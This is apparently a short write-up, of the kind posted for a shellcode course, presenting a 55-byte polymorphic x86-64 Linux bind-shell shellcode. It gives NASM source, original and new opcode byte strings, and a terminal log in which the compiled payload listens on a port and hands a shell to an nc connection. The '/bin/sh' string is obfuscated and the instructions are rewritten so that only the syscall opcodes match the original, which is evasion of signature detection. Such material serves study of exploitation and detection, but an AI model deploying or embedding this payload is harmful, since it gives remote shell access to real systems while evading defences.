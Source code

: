 Polymorphic version :  
**Size : 55 bytes**
```nasm
_start:
	push 0x1
	push 0x2
	push 0x29
	pop rax		; socket syscall value
	pop rdi		; AF_INET
	pop rsi		; SOCK_STREAM
	cdq		; RDX 0	
	syscall		; exec socket(AF_INET, SOCK_STREAM, 0)

	dec esi		; backlog 0
	xchg eax, edi	
	add al, 0x30	; 0x32, listen syscall value
	syscall 	; exec listen(sockfd, 0)

	add al, 0x2b	; accept syscall value
			; (listen return 0 on success) 
	syscall 	; exec accept(sockfd, null, null)

	xchg eax, edi   ; EDI new sockfd, EAX 3 
loop:
	dec    eax	; first then next stdX
	mov sil, 0x21	
	xchg eax, esi	; ESI counter, EAX dup2 syscall value
	syscall 	; dup2(sockfd, stdX) return the stdX value in EAX
	jne    loop	; loop until syscall return 0

	mov rbx, 0xff978cd091969dd0  ; ~'/bin/sh\x00'
	not rbx
	push   rbx
	mov rdi, rsp	; RDI point to "/bin/sh\x00"
	add al, 0x3b	; execve syscall value (RAX set to 0 by last dup2 syscall)
	syscall		; exec execve("/bin/sh",null,null)
```

Original shellcode :  
\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29**\x0f\x05**\x52\x5e\x50\x5f
\xb0\x32**\x0f\x05**\xb0\x2b**\x0f\x05**\x57\x5e\x48\x97\xff\xce\xb0\x21\x0f\x05\x75
\xf8\x52\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0**\x3b\x0f\x05**

The new shellcode :  
\x6a\x01\x6a\x02\x6a\x29\x58\x5f\x5e\x99**\x0f\x05**\xff\xce\x97\x04\x30**\x0f\x05**
\x04\x2b\x0f\x05\x97\xff\xc8\x40\xb6\x21\x96**\x0f\x05**\x75\xf6\x48\xbb\xd0\x9d
\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\x53\x48\x89\xe7\x04**\x3b\x0f\x05**

Only the syscall opcodes are the same, the string is obfuscated and all other instructions are modified.

```plaintext
skrox@kali:~/$ gcc -fno-stack-protector -z execstack bind-random-poly.c -o bind-random-poly
skrox@kali:~$ ./bind-random-poly 
Shellcode Length:  55

#And on another terminal
skrox@kali:~$ netstat -antp |grep bind-random
tcp        0      0 0.0.0.0:58367           0.0.0.0:*               LISTEN      15684/./bind-random 
skrox@kali:~$ nc -nv 127.0.0.1 58367
(UNKNOWN) [127.0.0.1] 58367 (?) open
id
uid=1000(skrox) gid=1000(skrox) groups=1000(skrox)
```
And it's all for this one, thanks for reading :)

